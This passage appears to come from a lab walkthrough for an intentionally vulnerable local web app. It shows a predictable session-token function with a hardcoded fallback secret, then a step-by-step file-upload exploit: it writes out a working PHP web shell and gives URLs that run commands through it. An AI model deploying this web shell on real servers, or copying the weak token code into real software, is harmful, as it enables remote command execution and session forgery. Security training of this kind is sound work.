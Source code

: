 **Vulnerable Code Pattern:**
```javascript
// Predictable session token generation
function generatePredictableToken(userId) {
  const secret = process.env.JWT_SECRET || 'predictable_secret_key_123';
  return Buffer.from(`${userId}-${secret}-${Date.now()}`).toString('base64');
}
```

---

### A08 - Software and Data Integrity Failures

**Description:** The file upload system lacks proper validation, allowing malicious files to be uploaded and executed.

**Location:**
- http://localhost:3000/wcorp/legacy-upload.html
- File upload functionality

**Step-by-Step Exploitation:**

**Step 1: Create a Web Shell**
1. Open a text editor (Notepad, VS Code, etc.)
2. Create a new file named `shell.php`
3. Add the following PHP code:
   ```php
   <?php
   if (isset($_GET['cmd'])) {
       echo "<pre>";
       system($_GET['cmd']);
       echo "</pre>";
   }
   ?>
   ```
4. Save the file

**Step 2: Access the Upload Page**
1. Open your web browser
2. Navigate to: `http://localhost:3000/wcorp/legacy-upload.html`
3. Observe the legacy upload interface

**Step 3: Upload the Web Shell**
1. Click "Choose File" or drag and drop the `shell.php` file
2. Click "Upload File"
3. Note the success message and file location
4. The file will be uploaded to `/uploads/` directory

**Step 4: Locate the Uploaded File**
1. The file will be renamed with a timestamp prefix
2. Note the new filename (e.g., `1704067200000-shell.php`)
3. The file will be accessible at: `http://localhost:3000/uploads/[filename]`

**Step 5: Test Basic Command Execution**
1. Navigate to: `http://localhost:3000/uploads/shell.php?cmd=whoami`
2. Observe the command output showing the current user
3. Try other basic commands:
   ```
   http://localhost:3000/uploads/shell.php?cmd=id
   http://localhost:3000/uploads/shell.php?cmd=pwd
   http://localhost:3000/uploads/shell.php?cmd=uname -a
   ```
